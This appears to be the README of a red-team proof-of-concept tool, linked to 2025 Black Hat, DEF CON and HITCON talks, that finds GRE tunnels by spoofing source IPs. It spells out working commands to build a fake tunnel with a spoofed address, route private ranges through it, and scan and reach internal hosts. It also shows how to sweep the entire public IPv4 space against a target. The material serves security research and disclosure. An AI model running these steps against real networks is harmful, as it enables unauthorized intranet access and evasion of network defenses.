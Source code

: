 # GRE tunnel Scanner
## ⚠️⚠️⚠️ IMPORTANT ⚠️⚠️⚠️
### ⚠️This tool includes spoofing source IP addresses. Please ensure you have legal authorization to use it.⚠️
## Reference
- This is a PoC code for Talks: From Spoofing to Tunneling: New Red Team's Networking Techniques for Initial Access and Evasion
    - [Black Hat USA 2025 Briefing](https://www.blackhat.com/us-25/briefings/schedule/#from-spoofing-to-tunneling-new-red-teams-networking-techniques-for-initial-access-and-evasion-44678)
    - [DEF CON 33 Main Stage](https://defcon.org/html/defcon-33/dc-33-speakers.html#content_60316)
    - [HITCON 2025](https://hitcon.org/2025/en-US/agenda/)

## Prepare

local:

- `pip3 install requirement.txt`

## Usage - container

```bash
sudo podman build -t gretap .

sudo podman run -it --name gretap \
    --net=host --cap-add=net_admin --cap-add=net_raw --cap-add=sys_nice \
    --device /dev/net/tun \
    -v /etc/resolv.conf:/etc/resolv.conf:ro \
    -d gretap

sudo podman exec -it gretap /bin/bash

python3 main.py -i <interface> -lh <your_public_IP> -s <gre_src_ip_subnet or ip_list_file> -d  <gre_dst_ip_subnet or ip_list_file> -o <logfile>
```

## Example

- for example `1.1.1.1` and `2.2.2.2` has gre tunnel you are `3.3.3.3`
```
python3 main.py  -i eth0 -lh 3.3.3.3 -s 1.1.1.1 -d 2.2.2.2
INFO - sending gresrc 1.1.1.1, gredst 2.2.2.2
CRITICAL - Received reply from 2.2.2.2 GRE peer: 1.1.1.1
```
- And get how to abuse GRE tunnel
```
python3 main.py  -i eth0 -lh 3.3.3.3 -s 1.1.1.1 -d 2.2.2.2 -sch -l3
########################## output ##########################
#### Create Fake Tunnel ####
IFACE=eth0
MYPUBIP=3.3.3.3
SRCADDR=1.1.1.1
DSTADDR=2.2.2.2
ip addr add  $SRCADDR/32 dev $IFACE
ip r add $DSTADDR dev $IFACE src $SRCADDR
ip tunnel add gre1 mode gre local $SRCADDR remote $DSTADDR ttl 255
ip link set gre1 up mtu 1280

## route possible private ip ##
ip r add 10.0.0.0/8 dev gre1 src $MYPUBIP
ip r add 172.16.0.0/12 dev gre1 src $MYPUBIP
ip r add 192.168.0.0/16 dev gre1 src $MYPUBIP

### start scan intranet ###
#### !IMPORTANT! ####
# !! gretap is not available for this kind of attack use fping instead !! #
# fping -g 192.168.0.0/16

### cleanup ###
ip addr del $SRCADDR/32 dev $IFACE
ip tunnel del gre1
```

- if you know the endpoint but don't know the peer address you can do somethin like this
  - `python3 main.py  -i eth0 -l3 -lh 3.3.3.3 -s 1.1.1.0/24 -d 2.2.2.2 -id 8.8.8.8`
  - you well get reply from 8.8.8.8 while you get the right peer

- default setting about 500 package/sec.
## options
- `-sch`: Show Cheetsheet and exit (Input -i -lh -s -d which you found then get abuse GRE tunnel command)
- `-l3`: Layer 3 tunnel interface (Default: False)
- `-r`: Place GRE dest IP infomation in ICMP (Default: Place GRE src IP infomation)
- `-ss`: Save and use status file (the last scan will resume) (Default: False)
  - Recommend "on" in mass scan system sometime kill the script
- `-i <interface>`: Interface to send package
- `-s <ip_or_file>`: A IP subnet or a list of IPs(subnets) to use as GRE src
- `-d <ip_or_file>`: A IP subnet or a list of IPs(subnets) to use as GRE dst
- `-L <file>`: scan a list of GRE peers
  - file every line look like this `1.1.1.1,2.2.2.2`
- `-lh <ip>`: A IP on your pubilc interface (the IP on -i interface)
- `-o <file>`: Log file path
- `-t <float>`: Wait how many second after GRE packet send (Default: 2)
- `-T <int>`: How many thread send GRE packet in same time (Default: 255)
- `-cs <int>`: Send how many ip until start wait for ping to responsed (default: 1000)
- `-dp`: Do private - scan private ip GRE (Default: False)
- `-id <ip>`: Inside ICMP dst address (Default: same as GRE dst)
  - Use this if you know the inside intranet address
- `-v <log_level>`: Logging level `['DEBUG', 'INFO', 'WARNING', 'ERROR', 'CRITICAL']` (Default: INFO)
  - GRE peer found log is on `CRITICAL`


## better way to scan full public ip
```
wget https://bgp.tools/table.txt
cat table.txt |grep -v "::"|cut -d " " -f 1 > v4table.txt
pip3 install aggregate6
aggregate6 v4table.txt > aggrv4table.txt
#cat aggrv4table.txt|wc -l   #159652
python3 main.py -i  <interface> -lh <your_public_IP> -s aggrv4table.txt -d <your_target> -ss
```

## Lab
### Scan GRE tunnel
`python3 main.py -i <iface> -lh <your_ip> -s 1.1.1.1 -d 160.25.104.199`
### Access & Scan intranet
```
#### Create Fake Tunnel ####
IFACE=eth0  #change this
MYPUBIP=9.9.9.9  #change this
GATEWAY=1.2.3.4 #change this
SRCADDR=1.1.1.1 # lab info don't change
DSTADDR=160.25.104.199 # lab info don't change
ip addr add $SRCADDR/32 dev $IFACE
ip r add $DSTADDR dev $IFACE via $GATEWAY src $SRCADDR
ip tunnel add gre1 mode gre local $SRCADDR remote $DSTADDR ttl 255
ip link set gre1 up mtu 1280
### start scan intranet ###
fping -g 192.168.0.0/16

##### scan output #####
# 192.168.1.2 is alive

## test curl to web ##
curl 192.168.1.2
# YOU KNOW GRE!

#### cleanup ####
ip addr del $SRCADDR/32 dev $IFACE
ip tunnel del gre1
```


## Disclaimer
This project is intended for educational and research purposes only. Any actions and/or activities related to this code are solely your responsibility. The authors and contributors are not responsible for any misuse or damage caused by this project. Please ensure that you have proper authorization before testing, using, or deploying any part of this code in any environment. Unauthorized use of this code may violate local, state, and federal laws.

## License
This project is licensed under the terms of the MIT license.
